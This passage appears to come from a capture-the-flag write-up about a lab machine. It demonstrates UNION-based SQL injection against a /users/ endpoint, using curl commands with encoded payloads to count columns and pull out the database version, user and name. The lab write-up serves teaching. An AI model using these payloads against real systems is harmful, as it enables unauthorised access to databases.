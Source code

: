 The other interesting result is `'` that returned a 500. That’s a crash, and it’s time to investigate for SQL injection.

### SQLI

#### POC

If I add a `'` to the end of my url, I do get a 500 error:

![1541189342899](https://0xdfimages.gitlab.io/img/1541189342899.png)

I’ll try a simple injection, and it works:

![1541189365505](https://0xdfimages.gitlab.io/img/1541189365505.png)

Next I’ll check to see if I can use `UNION` to get data. First, I need to figure out how many columns are being returned. Based on the json, it’s probably one, and I can confirm that:

```

root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%201;--%20-"
{"username":"1"}

root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%201,1;--%20-"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request.  Either the server is overloaded or there is an error in the application.</p>

```

It works when I do `' union select 1;-- -`, but not when i do `' union select 1,1;-- -`.

#### Enumeration

Now that I have union working, I’ll enumerate the database. First, the version (and using `jq` to isolate it, check out [my jq post](/2018/12/19/jq.html) if this is new to you):

```

root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20version();--%20-" | jq .username
"5.5.59-MariaDB-1~wheezy"

```

Now I’ll get the database user and the current database:

```

root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20user();--%20-" | jq -r '.username'
dorthi@10.100.10.6

root@kali# curl -s "http://10.10.10.96/users/'%20union%20select%20database();--%20-" | jq -r '.username'
ozdb

```
